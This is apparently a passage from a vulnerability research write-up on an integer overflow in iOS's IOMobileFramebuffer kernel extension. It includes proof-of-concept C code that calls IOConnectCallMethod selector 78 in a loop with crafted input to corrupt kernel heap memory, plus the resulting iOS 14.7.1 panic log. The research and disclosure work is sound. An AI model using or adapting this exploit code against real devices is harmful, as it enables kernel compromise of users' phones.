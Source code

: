 Therefore, the idea is simple: let’s choose numbers that give us the following properties:

1.  make the overflowed calculation to result in a small and common size (I picked 0x44)
2.  make the wildcopy to be built out of **many loops, each copy a small number of bytes instead of a small number of loops, each copy a large number of bytes**. This **significantly increases** the number of checks that could get us out of the wildcopy, and we could just hope that the random content from the heap will break us out of the copy (again, proper shaping will do this in the right way, but the patch got out 2 hours ago. So, let’s test it out :P).

As it turns out, this approach works “too well”, in the sense that in most cases, we get out of the coping loop way too early (i.e. we wrote a very little amount of bytes OOB the allocation), and, in a few cases, we get out of the function and stop before the corruption even starts (and then, nothing crashes). But after I ran my POC app a few times in a row, I got the good panic I aimed for! So, I just wrapped it up in a loop, and the good panic I aimed for happens all the time!

I also set a breakpoint in the “return 0” in _set_table_, and I see this happens. You can also use the debugger to see how many bytes have been corrupted exactly in each call to _s_set_block_.

Now, to the POC! By reversing and debugging, it’s easy to see that pArr[89] is the number of iterations of the copying loop in _IOMFB::TableCompensator::BilerpGainTable::set_table_. So, I chose numbers that give me this property of lots of iterations in _new_from_data_, each calls a small loop in _set_table_, and that the integer overflow results in 0x44. By changing the relevant part in the POC:

```
    // we control the content we are corrupting with
    memset(input, 0x41, input_size);
    int *pArr = (int*)input;

    pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x40000001;   // #iterations in the outer loop (new_from_data)
    pArr[3] = 2;
    pArr[8] = 2;
    pArr[89] = 4;           // #iterations in the inner loop (set_table)
    
    /* each call trigger a flow with a lot of calls to set_table(), while
       each set_table() flow will do a loop of only 4 iterations*/
    for (size_t i = 0; i < 0x10000; ++i) {
        ret = IOConnectCallMethod(iomfb_uc, 78,
                            scalars, 2,
                            input, input_size,
                            NULL, NULL,
                            NULL, NULL);
    }


```

And, the panic I’m always getting, on physical device iPhone X, 14.7.1 (it behaves **exactly** the same on virtual iPhone 11 Pro 14.7.1/15.0):

```
  "build" : "iPhone OS 14.7.1 (18G82)",
  "product" : "iPhone10,3",
...
  "panicString" : "panic(cpu 5 caller 0xfffffff01ad1d050): [kext.kalloc.80]: element modified after free (off:0, val:0x4141414141414141, sz:80, ptr:0xffffffe4cb9780f0, prot:zero)
    0: 0x4141414141414141
    8: 0x4141414141414141
...
Kernel slide:      0x0000000012c1c000
Kernel text base:  0xfffffff019c20000


```
